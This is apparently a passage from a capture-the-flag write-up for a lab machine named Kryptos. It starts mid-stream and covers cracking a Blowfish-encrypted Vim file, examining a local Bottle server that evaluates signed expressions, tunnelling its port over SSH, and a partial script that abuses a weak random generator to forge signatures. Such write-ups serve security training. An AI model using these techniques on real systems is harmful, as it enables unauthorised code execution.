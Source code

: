 ```creds.txt``` is a VimCrypt02 file. This file has been encrypted with Blowfish, which is a block-cypher vulnerable from plain-text attacks as well. The file ```creds.old``` makes us suspect that ```creds.txt``` has the same structure, so we could know the first part of it, ```rijndael / ```. 
	                    }
	        return json.dumps(response, sort_keys=True, indent=2)
	    except:
	        return "Error"

	# Generate a sample expression and signature for debugging purposes
	@route('/debug', method='GET')
	def debug():
	    expr = '2+2'
	    sig = sign(str.encode(expr))
	    response = {'response':
	                {
	                    'Expression': expr,
	                    'Signature': sig.decode() 
	                }
	                }
	    return json.dumps(response, sort_keys=True, indent=2)

	run(host='127.0.0.1', port=81, reloader=True)

On the last row, it sets up a server on port 81. By checking with ```netstat```, we got a confirmation:

	rijndael@kryptos:~$ netstat -ntlp
	(Not all processes could be identified, non-owned process info
	 will not be shown, you would have to be root to see it all.)
	Active Internet connections (only servers)
	Proto Recv-Q Send-Q Local Address           Foreign Address         State       PID/Program name
	tcp        0      0 127.0.0.1:3306          0.0.0.0:*               LISTEN      -
	tcp        0      0 127.0.0.1:81            0.0.0.0:*               LISTEN      -
	tcp        0      0 127.0.0.53:53           0.0.0.0:*               LISTEN      -
	tcp        0      0 0.0.0.0:22              0.0.0.0:*               LISTEN      -
	tcp6       0      0 :::80                   :::*                    LISTEN      -
	rijndael@kryptos:~$ 

To allow more extensive tests, we download the script in local and forward port 81 on our attacker machine:

	root@pentestbox:~# ssh -N -f -L 81:127.0.0.1:81 rijndael@10.10.10.129

In the source code, it is possible to see that there are three APIs exposed:

- ```GET /``` which don't produce valuable output;
- ```GET /debug``` which produces a signature from a sample expression;
- ```POST /eval``` which allows us to pass an expression and its signature, to evaluate the signature first and if matches, executes it.

This will be our attack vector. First, we have to understand how to generate valid signatures for a given expression and second we have to find a way to execute code. By inspecting the code, it is written that the function ```secure_rng(seed)``` should be secure. By Googling, we found out that the ```random.getrandbits(int)``` function [is not good for security purposes](https://docs.python.org/2/library/random.html). Therefore, we try to break the ```secure_rng(seed)``` function:

	for i in range(0,2000): 
	    # Set up the keys
	    seed = random.getrandbits(128)
	    rand = secure_rng(seed) + 1
	    sk = SigningKey.from_secret_exponent(rand, curve=NIST384p)
	    vk = sk.get_verifying_key()
	    req_data = { 'expr': '2+2', 'sig': sign(str.encode('2+2')) }
	    r = requests.post("http://127.0.0.1:81/eval", json=req_data)
	    if "Bad signature" in r.text:
```